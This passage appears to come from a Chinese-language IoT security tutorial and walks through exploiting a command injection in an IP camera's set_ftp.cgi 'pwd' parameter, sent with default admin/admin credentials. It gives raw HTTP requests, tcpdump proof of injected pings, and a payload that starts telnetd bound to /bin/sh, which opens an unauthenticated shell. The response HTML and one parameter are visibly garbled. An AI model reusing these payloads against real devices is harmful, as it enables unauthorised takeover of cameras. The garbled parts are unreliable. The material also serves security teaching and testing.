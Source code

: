 ```
RAW HTTP Request  
GET 
/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&loginpas=admin&svr=192.168.1.1&port=21&user=ftp&pwd=$(ping%20192.168.1.184)&dir=/&mode=0&upload_interval=0 HTTP/1.1 

RAW HTTP Response 
HTTP/1.1 200 OK 
Server: GoAhead-Webs 
Content-type: text/html 
Cache-Control:no-cache 
Content-length: 194 
Connection: close 

<html> 

<head> 

<title></title> 

<meta http-equ"v="Cache-Cont"ol" conte"t="no-cache, must-reva lid"te"><meta http-equ"v="refr"sh" conte"t="0; url=/ftp."tm" /> 

</head> 

<body> 

</body> 

<html> 
```

1.  刷新到`ftp.htm`页面后，我们观察到 ICMP 数据包被发送到我们的主机计算机：

```
$ tcpdump host 192.168.1.177 and icmp

15:27:08.400966 IP 192.168.1.177 > 192.168.1.184: ICMP echo request, id 42832, seq 0, length 64
15:27:08.401013 IP 192.168.1.184 > 192.168.1.177: ICMP echo reply, id 42832, seq 0, length 64
15:27:09.404737 IP 192.168.1.177 > 192.168.1.184: ICMP echo request, id 42832, seq 1, length 64
15:27:09.404781 IP 192.168.1.184 > 192.168.1.177: ICMP echo reply, id 42832, seq 1, length 64
15:27:10.666983 IP 192.168.1.177 > 192.168.1.184: ICMP echo request, id 42832, seq 2, length 64
15:27:10.667031 IP 192.168.1.184 > 192.168.1.177: ICMP echo reply, id 42832, seq 2, length 64  
```

1.  现在我们知道`pwd`参数容易受到命令注入的攻击，我们的下一个目标是获取对目标设备的 shell 访问权限。我们知道 IP 摄像头包含基于 FTP 的传统守护程序，很可能也使用 Telnet。接下来，我们将调用 Telnet 在端口`25`上启动，并使用以下有效负载在没有用户名或密码的情况下进入 shell：

```
/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&loginpas=admin&svr=192.168.1.1&port=21&user=ftp&pwd=$(telnetd -p25 -l/bin/sh)&dir=/&mode=PORT&upload_interva'=0'  
```

1.  我们还知道应用程序需要刷新`ftp.htm`页面以保存设置，但是在查看页面源代码时，它调用了一个名为`ftptest.cgi`的 CGI，执行我们的有效负载。以下是从`ftp.htm`页面执行我们的有效负载的代码片段：
